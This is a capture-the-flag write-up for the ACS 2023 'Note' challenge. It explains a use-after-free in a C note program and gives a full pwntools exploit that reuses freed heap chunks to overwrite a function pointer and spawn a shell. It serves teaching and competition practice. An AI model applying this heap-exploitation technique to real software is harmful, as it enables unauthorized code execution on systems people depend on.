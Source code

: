 ```yaml
---
title : "Note [Code Audit]"
categories: ACS2023
---
```


Dangling reference leading to Use-After-Free (UAF). Second code audit challenge for ACS 2023 finals.

# Challenge Description

I often write in my diary...

(Challenge connects over `nc`)

[note.c]({{ site.url }}/files/acs2023/note.c){: .btn .btn--info}

# Studying the code

This program is yet another menu program with the following commands:

1. Write a note: Creates a note in an array at a specified index.
2. Rewrite a note: Rewrites a note at an index. Resizes if the note becomes larger.
3. Read a note: Prints the contents of a note and runs its `emoji` function.
4. Erase a note: Frees the pointers in the note and of the note.
5. Exit

Immediately, I noticed that erasing a note doesn't actually clears the contents in the array.

```c
void _erase(int idx)
{
    if (note[idx] == 0)
    {
        printf("[*] empty page\n");

        return;
    }

    note[idx]->emoj = 0;
    printf("[!] erase note %d @ %p\n", idx, note[idx]);
    free(note[idx]->script);
    free(note[idx]);

    printf("Erase Success\n\n");
}
```

Therefore, after we erase a note, we can still technically read it from the array as if it were still a note. This leads to a classic UAF.

# Solution

The solution requires a little knowledge about how `free` works in C. There's a really good [article](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/) on this so I'll skip the details.

In short, when we free a piece of memory of a certain size, the next time we `malloc()` for that size, the heap manager will reuse that chunk to save time (unless a reconsolidation happens. Read article above for this). The freed chunks are stored in a free list, which is a linked list of freed chunks (LIFO).

Our goal is to free a note (16 bytes), and create a new note such that its `script` field is allocated to the freed note's chunk.

The solution is to create 2 notes of script length 16 bytes and >>16 bytes respectively. By freeing them both in order, and creating a new note of script length 16 bytes, we will achieve our goal. Let's see why.

Suppose we have already created our 2 notes as described above.

```
free index 1
                           +---------+     +-----------------+
16-byte free list HEAD --> | note[0] | --> | note[0]->script |
                           +---------+     +-----------------+



free index 2
                           +---------+     +---------+     +-----------------+
16-byte free list HEAD --> | note[1] | --> | note[0] | --> | note[0]->script |
                           +---------+     +---------+     +-----------------+

                           +-----------------+
X-byte free list  HEAD --> | note[1]->script |
                           +-----------------+
```

So, when we create `note[2]` with a 16-byte script, the following will hold

- `note[2] == note[1]`
- `note[2]->script == note[0]`

due to the `malloc()` order. And we just have to write the `shell` function's address to the last 8 bytes into `note[2]->script`, read `note[0]`, and we get shell.

# Final Script
```python
from pwn import *

DEBUG = True

if DEBUG:
    context.log_level = 'DEBUG'
conn = process("./note") if DEBUG else remote("192.168.0.52", 40000)

def write(index, script):
    conn.recvuntil(b">>> ")
    conn.sendline(b"1")

    conn.recvuntil(b": ")
    conn.sendline(str(index).encode())

    conn.recvuntil(b": ")
    conn.sendline(script)

    conn.recvuntil(b">>> ")
    conn.sendline(b"1") # emoji

def read(index):
    conn.recvuntil(b">>> ")
    conn.sendline(b"3")

    conn.recvuntil(b": ")
    conn.sendline(str(index).encode()) # index

def erase(index):
    conn.recvuntil(b">>> ")
    conn.sendline(b"4")

    conn.recvuntil(b": ")
    conn.sendline(str(index).encode()) # index

conn.recvuntil(b": ")
shell = int(conn.recvline(keepends=False).decode(), 16)
shell = shell.to_bytes(8, 'little')
assert(len(shell) == 8)


### Exploit

write(1, b"A" * 0x10)
write(2, b"A" * 0x30)

erase(1)
erase(2)

write(3, b"A" * 8 + shell)

read(1)
conn.interactive()
exit()
```

